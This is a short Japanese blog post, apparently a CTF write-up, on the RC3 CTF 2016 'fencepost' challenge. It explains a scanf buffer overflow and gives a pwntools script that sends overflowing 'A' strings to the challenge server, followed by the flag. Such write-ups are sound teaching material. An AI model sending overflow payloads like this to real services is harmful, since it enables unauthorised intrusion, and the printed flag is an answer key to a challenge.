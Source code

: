```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/rc3-ctf-2016-fencepost/
  - /blog/2016/11/21/rc3-ctf-2016-fencepost/
date: "2016-11-21T17:46:51+09:00"
tags: [ "ctf", "writeup", "rc3-ctf", "pwn" ]
---
```


# RC3 CTF 2016: fencepost

`scanf("%s", s);`のbofで特定の位置を$0$にするとflagが出てくる。なんだか配布されたのと鯖のとでバイナリが違うっぽいからとりあえず試してみたらflagが降ってきた。まさかこれでいいとは思わなかった。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='52.71.70.98')
parser.add_argument('port', nargs='?', default=2091, type=int)
args = parser.parse_args()

context.log_level = 'debug'
with remote(args.host, args.port) as p:
    for i in range(48, 0, -1):
        p.recvuntil('Password: ')
        p.sendline('A' * i)
```

flag: `RC3-2016-STACKPWN`
